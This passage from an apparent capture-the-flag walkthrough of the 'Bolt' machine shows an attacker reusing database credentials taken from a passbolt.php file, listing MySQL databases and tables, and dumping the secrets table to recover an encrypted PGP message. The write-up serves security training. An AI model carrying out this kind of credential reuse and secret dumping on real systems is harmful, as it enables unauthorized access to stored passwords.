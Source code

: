 ## MySQL Access

That was easy, but what do we need this for? Looking back at the passbolt.php file we found earlier we had database credentials that we didn't try. Let's have a look in there now:

```sh
eddie@bolt:~$ mysql -u passbolt -p -e 'show databases;'
Enter password: 
+--------------------+
| Database           |
+--------------------+
| information_schema |
| passboltdb         |
+--------------------+

eddie@bolt:~$ mysql -u passbolt -p -e 'show tables from passboltdb;'
Enter password: 
+-----------------------+
| Tables_in_passboltdb  |
+-----------------------+
<SNIP>
| secret_accesses       |
| secrets               |
| secrets_history       |
| user_agents           |
| users                 |
+-----------------------+
eddie@bolt:~$ mysql -u passbolt -p -D passboltdb -e 'select * from secrets;'
Enter password: 
+--------------------------------------+--------------------------------------+--------------------------------------+--------------+---------------------+---------------------+
| id                                   | user_id                              | resource_id                          | data         | created             | modified            |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------+---------------------+---------------------+
| 643a8b12-c42c-4507-8646-2f8712af88f8 | 4e184ee6-e436-47fb-91c9-dccb57f250bc | cd0270db-c83f-4f44-b7ac-76609b397746 |              | 2021-02-25 21:50:11 | 2021-03-06 15:34:36 |

-----BEGIN PGP MESSAGE-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

wcBMA/ZcqHmj13/kAQgAkS/2GvYLxglAIQpzFCydAPOj6QwdVV5BR17W5psc
g/ajGlQbkE6wgmpoV7HuyABUjgrNYwZGN7ak2Pkb+/3LZgtpV/PJCAD030kY
<SNIP>
nO9/aqEQ+2tE60QFsa2dbAAn7QKk8VE2B05jBGSLa0H7xQxshwSQYnHaJCE6
TQtOIti4o2sKEAFQnf7RDgpWeugbn/vphihSA984
=P38i
-----END PGP MESSAGE-----
```

## PGP Message
